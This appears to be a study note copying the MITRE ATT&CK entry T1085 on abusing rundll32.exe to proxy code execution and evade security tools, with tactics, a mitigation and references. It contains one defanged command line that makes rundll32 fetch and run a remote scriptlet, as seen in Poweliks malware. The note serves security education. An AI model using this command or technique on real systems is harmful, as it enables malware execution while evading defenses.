 ```yaml
---
alias: T1085
---
```


## T1085

The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)


### Tactic
- [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/ICS-Attack/tactics/Defense Evasion]] (TA0005)
- [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/ICS-Attack/tactics/Execution]] (TA0002)

### Platforms
- Windows

### Permissions Required
- User

### Mitigations

| ID | Name | Description |
| --- | --- | --- |
| [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/ICS-Attack/mitigations/Exploit Protection\|M1050]] | Exploit Protection | Microsoft's Enhanced Mitigation Experience Toolkit (EMET) Attack Surface Reduction (ASR) feature can be used to block methods of using rundll32.exe to bypass whitelisting. (Citation: Secure Host Baseline EMET) |

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1085
- Trend Micro CPL: https://www.trendmicro.de/cloud-content/us/pdfs/security-intelligence/white-papers/wp-cpl-malware.pdf
- This is Security Command Line Confusion: https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/
